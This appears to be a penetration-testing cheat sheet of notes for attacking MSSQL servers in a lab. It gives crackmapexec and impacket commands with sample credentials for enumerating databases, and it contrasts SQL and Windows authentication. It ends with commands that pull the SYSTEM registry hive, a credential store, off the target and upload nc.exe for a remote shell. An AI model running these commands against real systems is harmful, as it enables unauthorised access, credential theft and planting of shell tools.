 ### Show all databases
proxychains4 -f /etc/proxychains4.conf crackmapexec mssql 10.10.124.142 -u web_svc -p Diamond1 -q 'SELECT name FROM master.sys.databases;'

### Show all tables from msdb database
proxychains4 -f /etc/proxychains4.conf crackmapexec mssql 10.10.124.142 -u web_svc -p Diamond1 -q 'SELECT name FROM msdb.sys.tables'

### show all values of table spt_monitor from master database
SELECT * FROM msdb.dbo.monitor;

### Mssql Connection
```
impacket-mssqlclient user:pass@IP
impacket-mssqlclient user:pass@IP -windows-auth
```

### Sql authentication vs Windows authentication
>SQL Server Authentication:

>User Credentials: Requires a username and password specific to the SQL Server database.
Authentication Process: The SQL Server validates the username and password provided by the user.
Security Implications: Typically involves storing a username and password in the application's connection string. This method is more vulnerable to security threats if credentials are not adequately protected.
Example connection string using SQL Server Authentication:

>Windows Authentication:

>User Credentials: Relies on the user's Windows credentials (username and password) without requiring a separate SQL Server username and password.
Authentication Process: The SQL Server trusts the Windows authentication process, and the user is authenticated based on their Windows login credentials.
Security Implications: Generally considered more secure as it leverages the security features of the Windows operating system. Credentials are not typically stored in connection strings.

### MSSQL Upload and Download Files
```
proxychains4 -f /etc/proxychains4.conf crackmapexec mssql 10.10.133.148 -u sql_svc -p Dolphin1 --get-file C:\\windows.old\\Windows\\System32\\SYSTEM /home/kali/Desktop/SYSTEM
proxychains4 -f /etc/proxychains4.conf crackmapexec mssql 10.10.133.148 -u sql_svc -p Dolphin1 --put-file nc.exe C:\\Users\\Public\\nc.exe
```
